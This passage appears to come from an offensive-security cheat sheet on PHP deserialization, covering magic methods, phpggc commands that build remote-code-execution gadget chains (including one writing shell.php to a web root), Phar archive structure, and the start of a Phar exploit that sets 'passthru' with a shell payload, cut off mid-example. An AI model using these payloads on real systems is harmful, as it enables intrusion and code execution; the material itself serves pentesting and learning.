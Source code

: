     * `__toString()`: The __toString() method allows a class to decide how it will react when it is treated like a string [php.net](https://www.php.net/manual/en/language.oop5.magic.php#object.tostring)
    * `__invoke()`: The `__invoke()` method is called when a script tries to call an object as a function. [php.net](https://www.php.net/manual/en/language.oop5.magic.php#object.invoke)
    * `__set_state(array $properties)`: This static method is called for classes exported by `var_export()`. [php.net](https://www.php.net/manual/en/language.oop5.magic.php#object.set-state)
    * `__clone()`: Once the cloning is complete, if a `__clone()` method is defined, then the newly created object's `__clone()` method will be called, to allow any necessary properties that need to be changed. [php.net](https://www.php.net/manual/en/language.oop5.cloning.php#object.clone)
    * `__debugInfo()`: This method is called by `var_dump()` when dumping an object to get the properties that should be shown. If the method isn't defined on an object, then all public, protected and private properties will be shown. [php.net](https://www.php.net/manual/en/language.oop5.magic.php#object.debuginfo)


[ambionics/phpggc](https://github.com/ambionics/phpggc) is a tool built to generate the payload based on several frameworks:

- Laravel
- Symfony
- SwiftMailer
- Monolog
- SlimPHP
- Doctrine
- Guzzle

```powershell
phpggc monolog/rce1 'phpinfo();' -s
phpggc monolog/rce1 assert 'phpinfo()'
phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
phpggc Monolog/RCE2 system 'id' -p phar -o /tmp/testinfo.ini
```

## Phar Deserialization

Using `phar://` wrapper, one can trigger a deserialization on the specified file like in `file_get_contents("phar://./archives/app.phar")`.

A valid PHAR includes four elements:

1. **Stub**: The stub is a chunk of PHP code which is executed when the file is accessed in an executable context. At a minimum, the stub must contain `__HALT_COMPILER();` at its conclusion. Otherwise, there are no restrictions on the contents of a Phar stub.
2. **Manifest**: Contains metadata about the archive and its contents.
3. **File Contents**: Contains the actual files in the archive.
4. **Signature**(optional): For verifying archive integrity.


* Example of a Phar creation in order to exploit a custom `PDFGenerator`.
    ```php
    <?php
    class PDFGenerator { }

    //Create a new instance of the Dummy class and modify its property
    $dummy = new PDFGenerator();
    $dummy->callback = "passthru";
    $dummy->fileName = "uname -a > pwned"; //our payload
